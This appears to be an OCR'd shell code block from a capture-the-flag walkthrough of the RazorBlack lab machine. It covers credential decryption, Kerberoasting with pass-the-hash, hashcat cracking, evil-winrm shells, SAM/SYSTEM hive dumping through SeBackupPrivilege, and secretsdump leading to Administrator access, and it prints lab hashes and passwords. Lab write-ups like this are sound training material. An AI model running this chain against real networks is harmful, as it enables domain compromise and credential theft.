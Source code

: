 ```shell
#use XML serialization

$credential = Import-CliXml -Path 'C:\Users\lvetrova\lvetrova.xml'

echo $credential
#shows flag as System.Security.SecureString

$credential.GetNetworkCredential().Password
#this gives us the flag

#in attacker machine
#we can use lvetrova hash to request ticket
GetUserSPNs.py raz0rblack.thm/lvetrova -dc-ip 10.10.59.156 -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -request
#this gives us hash

hashcat -a 0 -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt
#gives password for xyan1d3

evil-winrm -u xyan1d3 -p cyanide9amine5628 -i raz0rblack.thm
#get another shell

cd ..

dir
#another .xml file

Import-CliXml -Path 'C:\Users\xyan1d3\xyan1d3.xml'

$credential.GetNetworkCredential().Password
#gives us another flag

whoami /priv
#SeBackupPrivilege enabled

#SeBackup privilege abuse

reg save hklm\sam C:\Users\xyan1d3\sam

reg save hklm\system C:\Users\xyan1d3\system
#we can now download both these dumps to our local machine

download C:\Users\xyan1d3\sam /home/sv/THM/razorblack/sam

download C:\Users\xyan1d3\system /home/sv/THM/razorblack/system

#in attacker machine
secretsdump.py -sam sam -system system LOCAL
#this gives us the Administrator hash

evil-winrm -u Administrator -H 9689931bed40ca5a2ce1218210177f0c -i raz0rblack.thm
#get shell as Administrator

cd ..

dir
#we have cookie.json and root.xml

type root.xml
#this shows a different type of data
#CyberChef shows it is hex data
#decoding from hex gives us flag

```